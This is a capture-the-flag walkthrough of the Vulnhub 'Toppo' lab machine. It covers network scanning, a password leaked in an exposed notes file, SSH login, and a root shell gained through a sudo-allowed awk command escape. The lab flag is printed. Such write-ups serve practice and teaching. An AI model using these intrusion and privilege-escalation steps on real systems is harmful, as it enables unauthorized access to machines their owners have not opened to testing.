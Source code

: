 # Toppo Vulnhub Writeup

Link:           [Toppo by Hadi Mene](https://www.vulnhub.com/entry/toppo-1,245/)

* Details:        Boot2Root Virtual Machine
* Author Rating:  Beginner
* Flag Count:     1
* Flag Location:  /root/flag.txt
* Flag Contents:  0wnedlab{p4ssi0n_c0me_with_pract1ce}

## Runsheet

Located the Virtual Machine's IP;

```bash
arp-scan 192.168.146.0/24
```

Nmap Host to identify open ports on the machine and attempt to identify the host operating system;

```bash
nmap -sV -O 192.168.146.130
```

We found that Port 80 was open, and upon navigating to the site, we are greeted with a stock standard blog. This gave us nothing but a stock blog with no actual content. So we need to go further;

```bash
nikto -h http://192.168.146.130/
```

With this, we identifed a open directory called `/admin` which contained a 1 file called notes.txt. The contents of the file is;

```text
I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
```

This gives us a password to an account, which we can assume to be the ted in the middle of the string, so lets give that a shot on the SSH open on 22 using `ted/12345ted123`. This turns out to be correct and we get shell.

Now with shell, we can check our permissions and see how we can escalate, so we check if we can sudo any commands, using `sudo -l` and it tells us we can use the command `awk` as sudo, meaning we can execute that command as root.

We can use the Awk command to gain shell if we use the following;

```bash
awk 'BEGIN {system("/bin/sh")}'
```

Which drops us into a Root shell, letting us cat the final flag in `/root/flag.txt`;

```text
 _________
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
   _| |_ | \__. | | \__/ | | \__/ || \__. |
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```